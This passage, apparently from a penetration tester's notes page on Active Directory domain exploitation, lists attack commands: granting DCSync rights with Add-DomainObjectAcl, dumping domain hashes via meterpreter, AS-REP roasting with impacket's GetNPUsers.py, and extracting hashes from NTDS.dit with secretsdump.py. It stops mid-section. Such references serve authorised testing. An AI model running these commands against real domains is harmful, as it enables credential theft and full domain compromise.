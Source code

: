 `Add-DomainObjectAcl -TargetIdentity "DC=burmatco,DC=local" -PrincipalIdentity useracct1 -Rights DCSync `

And use these rights to dump the hashes from the domain:
`meterpreter > dcsync_ntlm BURMATCO\\useracct1 `

#

IMPACKET[![](data:image/svg+xml,%3csvg preserveAspectRatio='xMidYMid meet' height='1em' width='1em' fill='none' xmlns='http://www.w3.org/2000/svg' viewBox='0 0 24 24' stroke-width='2' stroke-linecap='round' stroke-linejoin='round' stroke='currentColor' class='icon-7f6730be--text-3f89f380 js-evernote-checked' data-evernote-id='745'%3e%3cg data-evernote-id='746' class='js-evernote-checked'%3e%3cpath d='M10 13a5 5 0 0 0 7.54.54l3-3a5 5 0 0 0-7.07-7.07l-1.72 1.71' data-evernote-id='747' class='js-evernote-checked'%3e%3c/path%3e%3cpath d='M14 11a5 5 0 0 0-7.54-.54l-3 3a5 5 0 0 0 7.07 7.07l1.71-1.71' data-evernote-id='748' class='js-evernote-checked'%3e%3c/path%3e%3c/g%3e%3c/svg%3e)](https://burmat.gitbook.io/security/hacking/domain-exploitation#impacket)

Thanks to the [impacket](https://github.com/SecureAuthCorp/impacket) toolset, exploiting misconfigurations in AD environments is made easier.

##

GetNPUsers.py[![](data:image/svg+xml,%3csvg preserveAspectRatio='xMidYMid meet' height='1em' width='1em' fill='none' xmlns='http://www.w3.org/2000/svg' viewBox='0 0 24 24' stroke-width='2' stroke-linecap='round' stroke-linejoin='round' stroke='currentColor' class='icon-7f6730be--text-3f89f380 js-evernote-checked' data-evernote-id='770'%3e%3cg data-evernote-id='771' class='js-evernote-checked'%3e%3cpath d='M10 13a5 5 0 0 0 7.54.54l3-3a5 5 0 0 0-7.07-7.07l-1.72 1.71' data-evernote-id='772' class='js-evernote-checked'%3e%3c/path%3e%3cpath d='M14 11a5 5 0 0 0-7.54-.54l-3 3a5 5 0 0 0 7.07 7.07l1.71-1.71' data-evernote-id='773' class='js-evernote-checked'%3e%3c/path%3e%3c/g%3e%3c/svg%3e)](https://burmat.gitbook.io/security/hacking/domain-exploitation#getnpusers-py)

Attempt to get TGTs for users that have `UF_DONT_REQUIRE_PREAUTH ` set:

![](data:image/svg+xml,%3csvg preserveAspectRatio='xMidYMid meet' height='1em' width='1em' fill='none' xmlns='http://www.w3.org/2000/svg' viewBox='0 0 24 24' stroke-width='2' stroke-linecap='round' stroke-linejoin='round' stroke='currentColor' class='icon-7f6730be--text-3f89f380 js-evernote-checked' data-evernote-id='784'%3e%3cg data-evernote-id='785' class='js-evernote-checked'%3e%3crect x='9' y='9' width='13' height='13' rx='2' ry='2' data-evernote-id='786' class='js-evernote-checked'%3e%3c/rect%3e%3cpath d='M5 15H4a2 2 0 0 1-2-2V4a2 2 0 0 1 2-2h9a2 2 0 0 1 2 2v1' data-evernote-id='787' class='js-evernote-checked'%3e%3c/path%3e%3c/g%3e%3c/svg%3e)Copy

python GetNPUsers.py -request -no-pass -dc-ip 10.10.10.123 burmat.co/ -usersfile users.txt

##

secretsdump.py[![](data:image/svg+xml,%3csvg preserveAspectRatio='xMidYMid meet' height='1em' width='1em' fill='none' xmlns='http://www.w3.org/2000/svg' viewBox='0 0 24 24' stroke-width='2' stroke-linecap='round' stroke-linejoin='round' stroke='currentColor' class='icon-7f6730be--text-3f89f380 js-evernote-checked' data-evernote-id='799'%3e%3cg data-evernote-id='800' class='js-evernote-checked'%3e%3cpath d='M10 13a5 5 0 0 0 7.54.54l3-3a5 5 0 0 0-7.07-7.07l-1.72 1.71' data-evernote-id='801' class='js-evernote-checked'%3e%3c/path%3e%3cpath d='M14 11a5 5 0 0 0-7.54-.54l-3 3a5 5 0 0 0 7.07 7.07l1.71-1.71' data-evernote-id='802' class='js-evernote-checked'%3e%3c/path%3e%3c/g%3e%3c/svg%3e)](https://burmat.gitbook.io/security/hacking/domain-exploitation#secretsdump-py)

Attack a local offline copy of NTDS.dit:

![](data:image/svg+xml,%3csvg preserveAspectRatio='xMidYMid meet' height='1em' width='1em' fill='none' xmlns='http://www.w3.org/2000/svg' viewBox='0 0 24 24' stroke-width='2' stroke-linecap='round' stroke-linejoin='round' stroke='currentColor' class='icon-7f6730be--text-3f89f380 js-evernote-checked' data-evernote-id='810'%3e%3cg data-evernote-id='811' class='js-evernote-checked'%3e%3crect x='9' y='9' width='13' height='13' rx='2' ry='2' data-evernote-id='812' class='js-evernote-checked'%3e%3c/rect%3e%3cpath d='M5 15H4a2 2 0 0 1-2-2V4a2 2 0 0 1 2-2h9a2 2 0 0 1 2 2v1' data-evernote-id='813' class='js-evernote-checked'%3e%3c/path%3e%3c/g%3e%3c/svg%3e)Copy

./secretsdump.py -ntds /root/l00t/ntds.dit -system /root/l00t/systemhive LOCAL
Or you can attack a system remotely:

![](data:image/svg+xml,%3csvg preserveAspectRatio='xMidYMid meet' height='1em' width='1em' fill='none' xmlns='http://www.w3.org/2000/svg' viewBox='0 0 24 24' stroke-width='2' stroke-linecap='round' stroke-linejoin='round' stroke='currentColor' class='icon-7f6730be--text-3f89f380 js-evernote-checked' data-evernote-id='825'%3e%3cg data-evernote-id='826' class='js-evernote-checked'%3e%3crect x='9' y='9' width='13' height='13' rx='2' ry='2' data-evernote-id='827' class='js-evernote-checked'%3e%3c/rect%3e%3cpath d='M5 15H4a2 2 0 0 1-2-2V4a2 2 0 0 1 2-2h9a2 2 0 0 1 2 2v1' data-evernote-id='828' class='js-evernote-checked'%3e%3c/path%3e%3c/g%3e%3c/svg%3e)Copy
